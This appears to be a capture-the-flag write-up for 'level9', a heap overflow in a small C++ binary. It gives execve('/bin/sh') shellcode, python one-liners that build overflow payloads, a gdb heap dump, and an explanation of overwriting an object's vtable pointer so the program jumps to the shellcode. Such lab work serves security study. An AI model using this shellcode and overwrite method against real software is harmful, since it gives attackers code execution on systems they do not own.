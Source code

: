 ```
Here is our shellcode (size 24)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```bash
(python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\x08\xa0\x04\x08")'; cat) | ./level9
```

```bash
./level9 `python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```
```bash
./level9 `python -c 'print("A" * 216 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```


Here is the layout of the heap after the two allocation and construction of N object, and before
the call to `setAnnotation`

```bash
(gdb) x/75x 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x00000000
0x804a010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000005	0x00000071	0x08048848	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000006	0x00020f21	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a110:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a120:	0x00000000	0x00000000	0x00000000
```

`0x08048848` indicates start of struct

`instance1->nb` at this + 26 * 4 = `0x00000005`

`instance2->nb` at this + 26 * 4 = `0x00000006`

```bash
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:	0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:	0x8be58955
```

this address might be the pointer on member function called at the end of the main return value

### Payload

So the strategy should be to overwrite the member function `0x08048848` and points to another address in the heap that point to a shellcode.
why 2 jump are needed ? we need 2 jump because the call to the member function is dereferenced two times

`return (**(code **)*instance_2)(instance_2, instance_1);` --> here the 2 `*`

so we craft the payload

```bash
./level9 `python -c 'print("A" * 4 + "\x14\xa0\x04\x08" + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 76 + "\x10\xa0\x04\x08")'`
```

here we have at the end `"\x10\xa0\x04\x08"` that point to an adress (`\x31\xc0\x99\x50`) and this address point to the beginning of the shellcode

